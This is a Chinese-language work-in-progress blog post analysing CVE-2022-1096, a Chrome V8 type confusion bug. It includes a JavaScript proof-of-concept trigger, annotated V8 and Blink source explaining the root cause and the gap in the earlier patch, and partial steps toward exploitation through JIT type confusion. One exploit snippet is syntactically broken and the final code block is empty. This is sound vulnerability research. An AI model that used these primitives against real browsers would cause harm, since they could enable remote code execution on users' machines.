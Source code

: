 ```yaml
---
layout: post
title: "CVE-2022-1096 (WIP)"
---
```


CVE-2022-1096 是 CVE-2021-30551 的变种。

## 准备环境

阅读 [Google P0 的分析报告](https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-1096.html) 得知修复的版本是 99.0.4844.84，搜到对应的[发布记录](https://chromereleases.googleblog.com/2022/03/stable-channel-update-for-desktop_25.html)，依照时间找到上一个版本是 [99.0.4844.82](https://chromereleases.googleblog.com/2022/03/stable-channel-update-for-desktop_20.html)，使用 [获取旧版本的 Chrome](2022-05-31-get-old-version-chrome-binary.md) 中的方法构建出对应的二进制文件。

## 分析成因

将 POC 代码稍加修改，方便调试：

```javascript
style = document.createElement('p').style;
alert(1);
style.prop = { toString: () => {
  style.prop = 1;
}};
alert(2)
```

根据之前调试 CVE-2021-30551 积累的经验，漏洞是在 v8/src/objects/objects.cc：`Object::SetProperty` 函数执行过程中触发的，在 alert(1) 弹出后，在 Object::SetProperty 函数开头下断点，然后点掉弹窗，让程序断下后开始调试。

```cpp
Maybe<bool> Object::SetProperty(LookupIterator* it, Handle<Object> value,
                                StoreOrigin store_origin,
                                Maybe<ShouldThrow> should_throw) {
  if (it->IsFound()) {
    bool found = true;
    Maybe<bool> result =
        SetPropertyInternal(it, value, should_throw, store_origin, &found);
    if (found) return result;
  }

  if (!CheckContextualStoreToJSGlobalObject(it, should_throw)) {
    return Nothing<bool>();
  }
  return AddDataProperty(it, value, NONE, should_throw, store_origin);
}
```

大体和 CVE-2021-30551 的流程一致，虽然 style 对象还没有名为 prop 的属性，但是由于 style 是设置了 INTERCEPTOR 的 DOM 对象， 属性的查找结果是找到了 INTERCEPTOR，it->IsFound() 条件满足，程序走到 SetPropertyInternal 中，经过多层调用，最终到达 V8CSSStyleDeclaration::NamedPropertySetterCallback 函调函数。

```cpp
void V8CSSStyleDeclaration::NamedPropertySetterCallback(
    v8::Local<v8::Name> v8_property_name,
    v8::Local<v8::Value> v8_property_value,
    const v8::PropertyCallbackInfo<v8::Value>& info) {
  RUNTIME_CALL_TIMER_SCOPE_DISABLED_BY_DEFAULT(
      info.GetIsolate(), "Blink_CSSStyleDeclaration_NamedPropertySetter");

  // 3.9.2. [[Set]]
  // https://webidl.spec.whatwg.org/#legacy-platform-object-set
  // step 1. If O and Receiver are the same object, then:
  if (info.Holder() == info.This()) {
    // step 1.2.1. Invoke the named property setter with P and V.
    v8::Isolate* isolate = info.GetIsolate();
    const ExceptionState::ContextType exception_state_context_type =
        ExceptionContext::Context::kNamedPropertySet;
    const char* const class_like_name = "CSSStyleDeclaration";
    ExceptionState exception_state(isolate, exception_state_context_type,
                                   class_like_name);

    // [CEReactions]
    CEReactionsScope ce_reactions_scope;

    v8::Local<v8::Object> v8_receiver = info.Holder();
    CSSStyleDeclaration* blink_receiver =
        V8CSSStyleDeclaration::ToWrappableUnsafe(v8_receiver);
    v8::Local<v8::Context> receiver_context =
        v8_receiver->GetCreationContextChecked();
    ScriptState* receiver_script_state = ScriptState::From(receiver_context);
    ScriptState* script_state = receiver_script_state;
    const AtomicString& blink_property_name =
        ToCoreAtomicString(v8_property_name.As<v8::String>());
    // 这里会把值转换成字符串，触发其 toString 方法的回调
    auto&& blink_property_value =
        NativeValueTraits<IDLStringTreatNullAsEmptyString>::ArgumentValue(
            isolate, 1, v8_property_value, exception_state);
    if (UNLIKELY(exception_state.HadException())) {
      return;
    }
    auto&& return_value = blink_receiver->AnonymousNamedSetter(
        script_state, blink_property_name, blink_property_value);
    bindings::V8SetReturnValue(info, return_value);
    // CSSStyleDeclaration is abusing named properties.
    // Do not intercept if the property is not found.
    return;
  }

  // Do not intercept.  Fallback to OrdinarySetWithOwnDescriptor.
}
```

	在 Interceptor 回调中有一个把属性值转换成字符串的流程，这个地方会调用值的 toString 方法，而 toString 方法里会再次设置 prop 属性，这次设置的值为 1，设置完成后控制流最终返回到外层的值设置中，乍看和 CVE-2021-30551 好像没什么区别，为什么 CVE-2021-30551 的补丁没有解决这个问题呢？ 仔细查看修补的地方发现，由于 CVE-2021-30551 漏洞触发需要将 DOM 对象 HTMLEmbed 作为普通对象的原型，所以其补丁代码放到了针对原型的属性设置代码路径上，并不能覆盖直接给 DOM 对象设置属性的情况。 

```cpp
Maybe<bool> Object::SetPropertyInternal(LookupIterator* it,
                                        Handle<Object> value,
                                        Maybe<ShouldThrow> should_throw,
                                        StoreOrigin store_origin, bool* found) {
 ...

  do {
    switch (it->state()) {
      ...

      case LookupIterator::INTERCEPTOR: {
        if (it->HolderIsReceiverOrHiddenPrototype()) {
		    /// CVE-2022-1096 的控制流会走这里
          Maybe<bool> result =
              JSObject::SetPropertyWithInterceptor(it, should_throw, value);
          if (result.IsNothing() || result.FromJust()) return result;
        } else {
          Maybe<PropertyAttributes> maybe_attributes =
              JSObject::GetPropertyAttributesWithInterceptor(it);
          if (maybe_attributes.IsNothing()) return Nothing<bool>();
          if ((maybe_attributes.FromJust() & READ_ONLY) != 0) {
            return WriteToReadOnlyProperty(it, value, should_throw);
          }
          // >> CVE-2021-30551 的修补位置
          // At this point we might have called interceptor's query or getter
          // callback. Assuming that the callbacks have side effects, we use
          // Object::SetSuperProperty() which works properly regardless on
          // whether the property was present on the receiver or not when
          // storing to the receiver.
          if (maybe_attributes.FromJust() == ABSENT) {
            // Proceed lookup from the next state.
            it->Next();
          } else {
            // Finish lookup in order to make Object::SetSuperProperty() store
            // property to the receiver.
            it->NotFound();
          }
          return Object::SetSuperProperty(it, value, store_origin,
                                          should_throw);
        }
        break;
      }
	  ...
    }
    it->Next();
  } while (it->IsFound());

  *found = false;
  return Nothing<bool>();
}
```

## 实现利用

### 类型混淆

利用也和 CVE-2021-30551 的类似，要先将漏洞转换成类型混淆。先触发一次漏洞得到一个具有两个 prop 属性的对象 s1，代码如下：

```javascript
s1 = document.createElement('p').style;
v1 = { toString: () => {s1.prop = 1} };
s1.prop = v1;
```

之后再一次触发漏洞, 创建一个新对象 s2，不过这次漏洞触发的时候，我们希望能在设置第二个 prop 属性时，在控制流走到 LookupIterator::ApplyTransitionToDataProperty 函数时 `simple_transition` 条件为 `false`，这样控制流会走到 `ReloadPropertyInformation` 函数中，重新在 从对象中搜索 prop 属性的位置存储到 state_ 中，搜索算法是从属性描述符的数组的开头线性搜索，这样搜到的结果就是第一个 prop 属性，而不是刚刚添加的第二个 prop，最终结果对象 s2 的第二次 prop 赋值改写的是第一个 prop 属性。

```cpp
void LookupIterator::ApplyTransitionToDataProperty(
    Handle<JSReceiver> receiver) {
  ...
  Handle<Map> transition = transition_map();
  bool simple_transition = // <<<<< 关键点1
      transition->GetBackPointer(isolate_) == receiver->map(isolate_);

  ...

  if (simple_transition) {
    number_ = transition->LastAdded();
    property_details_ = transition->GetLastDescriptorDetails(isolate_);
    state_ = DATA;
  } else if (receiver->map(isolate_).is_dictionary_map()) {
	...
  } else {
    ReloadPropertyInformation<false>(); // <<<<< 关键点2
  }
}

template <bool is_element>
void LookupIterator::ReloadPropertyInformation() {
  state_ = BEFORE_PROPERTY;
  interceptor_state_ = InterceptorState::kUninitialized;
  state_ = LookupInHolder<is_element>(holder_->map(isolate_), *holder_); // <<< 关键点3
  DCHECK(IsFound() || !holder_->HasFastProperties(isolate_));
}
```

代码如下：

```javascript
s2 = document.createElement('p').style;
v2 = { toString: () => {s2.prop = 1; s2.__proro__ =  };
s2.prop = v2;
```

在属性访问的时候也是用同一个线性搜索算法，所以后续访问过程中可以忽略第二次添加的 prop 属性，实际生效的都是存储在第一个 prop 属性处的值，对于 s1 来说是第一个添加的，对于 s2 来说是第二次添加的。

有了 s1, s2 这两个有微妙区别的对象以后，还需要 JIT 编译机制的辅助才能实现类型混淆，定义一个读取 prop 对象的函数 f, 用 s1 触发 f 的 JIT 编译，再用 f 读取 s2 的 prop 对象，由于 s1, s2 的 map 是相同的，但是他们的 prop 属性是不同的，f 的代码是 JIT 编译器专门为 s1.prop 属性生成的，用于 s2.prop 上时，就造成了类型混淆。

```

```


---
⚠️ 提示：这里还要注意访问 prop 属性前，其实本应该有一个检查 prop 值的 Map 是否符合推断的 CheckMap 节点的，也是因为对象满足了 JIT 编译的优化掉条件，JIT 编译被优化掉了，才使得类型混淆最终得以实现，详情可以参考[我之前对 CVE-2021-30551 的分析](2022-04-30-CVE-2021-30551)。
	
---